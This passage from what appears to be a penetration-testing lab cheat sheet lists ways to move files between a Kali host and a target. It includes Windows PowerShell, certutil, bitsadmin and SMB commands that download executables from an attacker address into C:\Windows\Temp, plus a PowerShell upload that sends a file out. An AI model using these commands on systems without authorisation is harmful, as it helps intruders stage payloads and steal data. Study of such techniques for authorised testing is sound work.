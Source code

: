 #### Using SCP
```bash
# Upload
scp file.txt user@10.10.10.10:/path/to/destination

# Download
scp user@10.10.10.10:/path/to/file.txt .
```

#### Using Base64
```bash
# Sender
cat file.txt | base64 -w 0

# Receiver (paste the base64 output)
echo "base64_string" | base64 -d > file.txt
```

### Windows

#### Using PowerShell
```powershell
# Download file
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.10.10:8000/file.exe', 'C:\Windows\Temp\file.exe')"
powershell -c "Invoke-WebRequest -Uri 'http://10.10.10.10:8000/file.exe' -OutFile 'C:\Windows\Temp\file.exe'"

# Upload file (requires Python HTTP server with PUT enabled)
powershell -c "(New-Object System.Net.WebClient).UploadFile('http://10.10.10.10:8000/upload', 'C:\Windows\Temp\file.exe')"
```

#### Using Certutil
```cmd
certutil -urlcache -split -f "http://10.10.10.10:8000/file.exe" file.exe
```

#### Using BITS
```powershell
bitsadmin /transfer mydownloadjob /download /priority normal http://10.10.10.10:8000/file.exe C:\Windows\Temp\file.exe
```

#### Using SMB
```bash
# On Kali, set up SMB server
impacket-smbserver share /path/to/share

# On Windows
copy \\10.10.10.10\share\file.exe C:\Windows\Temp\file.exe
```

## Buffer Overflow Methodology
